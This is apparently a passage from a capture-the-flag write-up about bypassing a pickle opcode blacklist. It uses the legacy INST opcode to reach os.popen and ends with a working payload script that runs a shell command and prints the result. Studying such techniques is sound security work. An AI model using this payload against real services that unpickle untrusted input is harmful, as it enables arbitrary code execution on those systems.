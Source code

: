 However, in the context of the challenge we’re not allowed to use the `c` and `\x93` operations. Looking up the full list of opcodes [on github](https://github.com/python/cpython/blob/main/Lib/pickle.py#L105), we see that these correspond to the `GLOBAL` and `STACK_GLOBAL` operations. These operations are what allow us access to the execution context and to import modules, so without them we cannot access any builtin functions or classes.

I checked through the list of opcodes to see if any could be useful, and also read through the [pickletools source code](https://github.com/python/cpython/blob/main/Lib/pickletools.py#L1153) where each opcode was well documented. I also looked through the `genops` function, hoping to find some inconsistencies in the way opcodes were generated compared to how they were evaluated, but there was nothing. I also explored the possibility that there might be inconsistencies across different pickle protocol versions, but it seems to be handled perfectly with backwards compatibility.

Eventually, while looking through how each opcode was implemented I saw the `load_inst` function:

```python:pickle.py
...

    def load_inst(self):
        module = self.readline()[:-1].decode("ascii")
        name = self.readline()[:-1].decode("ascii")
        klass = self.find_class(module, name)
        self._instantiate(klass, self.pop_mark())

...
```

It caught my eye because it called the `find_class` method used to import stuff from a module, and it's also used by `GLOBAL` and `STACK_GLOBAL`. Referring back to its documentation in pickletools basically describes `INST` as an older opcode which is now replaced by the `GLOBAL` and `OBJ` opcodes.

```plaintext:
INST is followed by two newline-terminated strings, giving a
module and class name ... self.find_class(module, name) is used
to get a class object.

In addition, all the objects on the stack following the topmost
markobject are gathered into a tuple and popped (along with the
topmost markobject), just as for the TUPLE opcode.
```

So we can use inst to load whatever function we need and gain arbitrary code execution from there!

Now to craft the payload. My first thought was to call something like `__import__("os").popen("<command>").read()`. First, we call inst with `os` as module name, `popen` as the 'class name', and `<command>` as the argument. Second, we have to load the `getattr` function to access the `read` method. Finally, we add an empty tuple on the stack (since there are no arguments) and invoke the read method using the `REDUCE` opcode.

```python:s.py
from pickle import *
import base64

p = PROTO + b'\x04'
p += MARK
p += MARK
p += MARK
p += STRING + b'"cat chal.py"\n'
p += INST + b'os\npopen\n'
p += STRING + b'"read"\n'
p += INST + b'builtins\ngetattr\n'
p += MARK
p += TUPLE
p += REDUCE
p += INST + b'builtins\nprint\n'
p += STOP

print(base64.b64encode(p))
```